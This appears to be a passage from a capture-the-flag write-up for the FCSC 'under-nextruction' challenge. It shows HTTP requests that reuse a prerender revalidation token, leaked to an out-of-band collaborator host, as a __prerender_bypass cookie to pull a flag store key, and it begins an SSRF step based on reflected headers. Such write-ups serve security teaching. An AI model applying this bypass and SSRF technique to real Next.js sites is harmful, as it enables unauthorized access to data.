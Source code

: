 ```http
HEAD / HTTP/1.1
host: awariwppl8klbxf0rubkq5tfl6rxfn3c.oastify.com
connection: close
x-prerender-revalidate: 59c6709a1c2b39386a72b0026399960b
cookie: session=...
accept: / 
accept-language: *
sec-fetch-mode: cors
user-agent: node
accept-encoding: br, gzip, deflate
```

With the obtained token, you can modify the request to include the `__prerender_bypass` cookie: 
```http
GET /api/user HTTP/2
Host: under-nextruction.fcsc.fr:2213
Cookie: session= ...;__prerender_bypass=59c6709a1c2b39386a72b0026399960b
```

Resulting in:

```http
HTTP/2 200 OK
Cookie: session=...;__prerender_bypass=59c6709a1c2b39386a72b0026399960b
Host: under-nextruction.fcsc.fr:2213
X-Forwarded-For: 212.114.18.5
X-Forwarded-Host: under-nextruction.fcsc.fr:2213
X-Forwarded-Port: 8000
X-Forwarded-Proto: http
X-User: Vozec
Content-Type: application/json; charset=utf-8
Etag: "11a0v165edf3x"
Content-Length: 141
Vary: Accept-Encoding
Date: Sun, 27 Apr 2025 17:01:27 GMT
X-Robots-Tag: noindex, nofollow, nosnippet, noarchive, nocache, noodp, noyaca
{"username":"Vozec","timestamp":"2025-04-27T17:01:27.222Z","flagStoreKey":"8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457"}
```

### SSRF: Exploiting Header Reflection 

After obtaining the key, the next task is to execute SSRF on the Python application hosting the flag.   
An interesting and exploitable behavior was identified in the API: **Any headers sent in the request are mirrored back in the response!**

```http
GET /api/user HTTP/2
Host: under-nextruction.fcsc.fr:2213
Cookie: session=...;
Test: TEST
```
